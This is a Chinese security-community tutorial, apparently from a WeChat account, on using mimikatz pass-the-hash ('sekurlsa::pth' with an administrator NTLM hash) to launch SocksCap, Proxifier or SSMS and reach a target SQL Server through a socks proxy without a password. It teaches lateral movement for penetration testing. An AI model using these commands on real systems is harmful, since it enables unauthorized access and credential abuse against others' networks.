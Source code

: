横向渗透 | 无密码连接SQL Server的姿势
zksmile sechub安全
sechub安全 
微信号 secevery0x01

功能介绍 隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

__发表于

收录于合集 #内网渗透 10个

** 点击蓝字 关注我们**



免责声明

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

一、前言
原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

二、SocksCap
操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

1.打开mimikatz，hash注入sockscap
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  


2.在sockscap中运行ssms


3.输入目标服务器名称，连接即可




4.通过进程分析，发现SSMS的父进程是sockscap
wmic process where Name="SSMS.exe" get ParentProcessId  


三、proxifier
操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

1.启动proxifier
2.打开mimikatz，hash注入ssms
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  


3.连接




欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

#

**企业简介 **

赛克艾威 - 专注政企安全服务

**
**

   北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。
安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训



联系方式

电话｜010-86460828

官网｜https://sechub.com.cn



关注我们



公众号： sechub安全

哔哩号： SecHub官方账号

预览时标签不可点

微信扫一扫
关注该公众号

知道了

微信扫一扫
使用小程序

取消 允许

